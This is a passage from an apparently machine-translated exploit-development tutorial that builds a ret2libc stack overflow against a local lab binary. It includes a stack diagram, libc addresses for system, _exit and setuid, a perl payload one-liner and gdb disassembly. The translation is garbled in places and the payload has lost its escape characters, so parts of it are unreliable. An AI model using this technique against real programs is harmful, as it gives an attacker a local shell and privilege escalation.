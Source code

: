 |        ...        | (?? bytes, gcc hitngs, always leaves things aroung) Refill
+-------------------+ <- End buf
|        ...        | Refill (116 bytes)
+-------------------+
|    &"/bin/sh"     |
+-------------------+
|      &exit()      |
+-------------------+
|     &system()     |
+-------------------+ <- buf (128 bytes)
|        ...        |
+-------------------+ <- ESP (initially)
  low addresses

Once we have made an outline of the process of exploitation going to use, we had our _perl one-line_ (and, I know that many people would use python, which would be clearer, but Blackngel has struck me in this, plus if we do it in python, would have to write more than a _one-line_, I remember CLS @pastaCLS baptized me as “the perl _one-liner_“).

Well, one way to calculate the filling must introduce without `create_pattern` Metasploit and other tools is seeing the code in asm, noticing how specifically referenced the buffer:  
`804844a: 8d 85 78 ff ff ff lea eax,[ebp-0x88]  
8048450: 50 push eax  
8048451: e8 aa fe ff ff call 8048300 <strcpy@plt>`  
Therefore, buf is 0x88 (136 dec) bytes under `EBP(s)`. So first we introduce the address &system, &exit, &”/bin/sh” plus a fill of 124 bytes.  

    0xf7f5ecc8 : /bin/sh (ROPgadget)
    0xf7e3c850 <system> (gdb)
    0xf7e30800 <exit> -> nope (byte 0x00 and earlier dirs do not serve) -> 0xf7eb35c5 <_exit> (gdb)
    0xf7eb3d60 <setuid> (gdb)
    8048527: c3 ret    (objdump)

804846c: c9 leave  
804846d: c3 ret (objdump)

We can already do most of the exploit, the first thing we are placing the directions that we will introduce at least (probably have to enter several `&ret`‘s to reach `0x00000000` remaining as an argument to setuid(), but for now we will place only one `&ret`)  
`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08" . "x60x3dxebxf7" . "x6cx84x04x08"'`

Now let’s check the stack looking for a close NULL  
``$ gdb -q vuln  
Reading symbols from vuln...(no debugging symbols found)...done.  
(gdb) disas imprimir  
Dump of assembler code for function imprimir:  
0x0804843b <+0>: push %ebp  
0x0804843c <+1>: mov %esp,%ebp  
0x0804843e <+3>: sub $0x88,%esp  
0x08048444 <+9>: sub $0x8,%esp  
0x08048447 <+12>: pushl 0x8(%ebp)  
0x0804844a <+15>: lea -0x88(%ebp),%eax  
0x08048450 <+21>: push %eax  
0x08048451 <+22>: call 0x8048300 <strcpy@plt>  
0x08048456 <+27>: add $0x10,%esp  
0x08048459 <+30>: sub $0xc,%esp  
0x0804845c <+33>: lea -0x88(%ebp),%eax  
0x08048462 <+39>: push %eax  
0x08048463 <+40>: call 0x8048310 <puts@plt>  
0x08048468 <+45>: add $0x10,%esp  
0x0804846b <+48>: nop  